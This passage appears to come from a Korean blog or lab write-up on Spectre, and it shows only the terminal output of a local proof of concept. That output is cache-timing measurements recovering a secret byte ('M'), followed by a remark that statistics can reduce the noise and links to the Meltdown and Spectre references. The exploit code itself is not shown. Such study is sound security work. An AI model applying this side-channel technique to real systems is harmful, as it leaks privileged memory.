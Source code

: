 ```
78 366 250 250 286 216 274 220 44 236 488 292 246 288 356 270 308 272 446 336 400 368 254 242 244 262 248 574 456 256 254 312 384 244 244 234 338 382 370 254 218 254 294 252 514 266 768 230 228 234 244 318 364 282 250 256 424 424 258 288 262 236 308 228 236 264 252 248 226 250 318 778 424 228 268 258 290 40 742 234 350 462 282 584 380 232 248 228 224 224 306 364 226 574 346 712 354 218 296 224 342 266 524 282 306 422 366 224 314 232 412 336 292 228 234 852 324 220 298 252 856 240 242 264 380 228 242 440 328 1174 912 228 244 224 370 232 328 220 232 300 258 356 284 304 294 344 318 280 216 236 292 290 372 350 326 390 330 512 256 230 232 278 254 294 318 274 300 360 224 228 458 358 216 226 236 228 252 228 226 242 298 272 416 236 256 244 230 958 332 234 366 252 234 290 332 316 292 266 804 278 250 250 262 274 242 256 318 362 230 232 226 240 246 244 310 286 330 302 364 230 270 234 864 264 278 324 250 260 378 304 246 362 256 234 260 238 738 234 402 374 372 298 306 250 286 234 270 410 306 324 294 406 258 354 604 834 
4d[M] : 40
delspon@ubuntu:~/labs/practice/spectre$ ./poc
78 78 706 264 272 214 708 222 46 258 458 1058 424 392 978 568 218 334 228 250 236 228 280 282 264 246 236 218 226 658 266 320 244 222 270 224 230 520 312 348 348 310 278 358 304 258 332 234 286 254 344 242 248 224 234 412 236 306 306 394 308 230 258 276 318 330 296 384 312 298 370 280 266 288 234 662 226 68 242 252 226 364 252 316 278 496 414 306 364 360 334 378 216 380 336 232 312 240 230 242 244 222 294 234 396 324 338 296 310 650 538 256 280 240 226 258 256 324 248 228 234 218 258 370 224 258 226 346 252 468 242 372 344 348 362 264 260 222 230 258 264 238 242 330 382 284 228 372 256 236 248 288 224 228 290 244 226 274 244 258 288 230 242 236 244 820 340 230 258 352 290 368 232 396 270 330 270 308 270 230 224 494 234 330 372 518 354 302 340 254 236 220 444 240 262 240 230 386 244 464 286 392 264 294 234 298 280 222 222 224 288 380 314 294 320 260 298 228 240 970 662 230 382 306 252 242 336 226 234 256 240 634 228 254 230 230 226 216 400 230 252 280 256 240 376 402 302 230 236 230 784 228 240 252 234 256 
08] : 46
delspon@ubuntu:~/labs/practice/spectre$ ./poc
80 86 350 230 254 262 270 386 68 292 390 266 376 464 236 240 276 250 342 308 438 318 254 340 226 270 458 282 240 234 238 296 364 864 606 232 446 278 406 448 238 492 624 474 322 416 298 286 602 370 244 552 516 242 304 228 290 278 250 350 318 266 378 490 254 288 372 238 254 350 354 230 824 420 242 264 238 42 318 264 364 252 584 486 614 310 316 284 298 224 514 262 260 230 344 316 290 298 248 314 384 418 248 236 248 230 266 238 230 266 310 218 338 238 280 292 296 370 256 392 276 240 264 304 258 344 282 242 240 228 236 270 258 256 334 222 626 594 238 294 254 386 234 278 290 328 242 498 298 480 354 236 226 266 288 360 406 254 458 284 228 264 278 830 356 368 258 250 248 256 822 594 244 250 316 218 244 226 242 266 242 294 324 328 234 240 386 242 228 668 686 306 292 362 294 268 298 256 354 264 248 256 302 378 382 340 298 304 306 256 298 302 304 280 350 238 308 346 274 254 232 240 300 386 252 314 302 322 542 326 284 284 230 388 378 326 850 226 370 1014 228 498 330 368 342 506 252 236 362 228 310 224 260 288 452 748 
4d[M] : 42
```

실제로 실행해본 결과, noise가 섞이긴 했지만 M이라는 값이 가장 많이 나왔습니다. 노이즈는 최적화의 문제이며 통계의 개념을 도입한다면 해결할 수 있습니다.

## Reference

https://meltdownattack.com/

https://googleprojectzero.blogspot.kr/2018/01/reading-privileged-memory-with-side.html
